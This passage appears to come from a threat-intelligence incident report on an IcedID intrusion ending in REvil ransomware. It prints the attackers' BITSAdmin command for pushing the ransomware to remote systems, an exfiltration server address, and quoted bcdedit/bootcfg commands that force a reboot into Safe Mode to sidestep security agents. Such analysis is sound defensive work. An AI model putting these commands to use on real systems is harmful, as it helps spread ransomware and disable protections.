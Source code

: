 # IcedID:

Data that was collected from the domain was exfiltrated to a remote server at:

45.147.160.5:443

For the final actions, the threat actors dropped a ransomware executable on the domain controller in C:\Windows and then used BITSAdmin to deploy the executable to remote systems.

C:\Windows\system32\bitsadmin.exe /transfer debjob /download /priority normal \\DOMIANCONTROLLER\c$\windows\DOMAINNAME.exe C:\Windows\DOMAINNAME.exe

The -smode flag was used with the ransomware executable to set the system to reboot into Safe Mode with Networking as noted by Malwarehunterteam.

Not remember seeing these before in REvil ransomware samples.

🤔

So basically the actors using REvil now can use it to reboot target machines into safe mode with networking…@demonslay335 @VK_Intel pic.twitter.com/dLk4EirNFO — MalwareHunterTeam (@malwrhunterteam) March 18, 2021

See below for -smode execution:

The *franceisshit key was used to boot the machine out of Safe Mode upon restarting the machine.

The systems rebooted into Safe Mode with Networking after running this smode command and were left at a login screen. About 10-20 seconds after logging in, all user files were encrypted and a ransom note was placed in numerous locations including the Desktop. Services were not able to be started, which led to collection issues, as normal agents did not start. This also included the startup of EDR and management agents.

We’ve seen at least one tweet about smode setting auto login keys, but we did not see that in our case and were not able to recreate that situation.

# REvil v2.05



-smode switch configures OS to boot into safe mode w/ networking via:



(pre-Vista) bootcfg /raw /a /safeboot:network /id 1

or

(Vista+) bcdedit /set {current} safeboot network



configures auto-lognn via WinLogon 🔑 w/ 'DTrump4ever' password — R3MRUM (@R3MRUM) March 26, 2021

After rebooting out of Safe Mode, you are left with the following desktop:

On certain systems, like the domain controllers, the threat actors chose to not use the Safe Mode option, and instead they used a dll executed by rundll32 to encrypt the system with no reboot, allowing the threat actors to maintain access while the ransomware was encrypting files.
